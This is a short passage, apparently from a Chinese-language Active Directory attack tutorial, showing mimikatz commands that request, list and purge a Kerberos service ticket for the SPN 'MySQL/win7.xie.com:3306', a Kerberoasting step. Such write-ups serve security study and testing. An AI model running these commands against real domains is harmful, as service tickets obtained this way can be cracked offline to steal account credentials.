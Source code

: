 ![截图](6e62e9c484da8226104dea01c1335f17.png)

#### 4.mimikatz 请求

使用 mimikaatzc 存在内存中，命令如下：

```
#请求服务票据
kerberos::ask /target:MySQL/win7.xie.com:3306
#列出服务票据
kerberos::list
#清除所有票据
kerberos::purge
```

如图所示，使用 mimikatz 请求指定 SPN"MySQL/win7.xie.com:3306" 的服务票据。
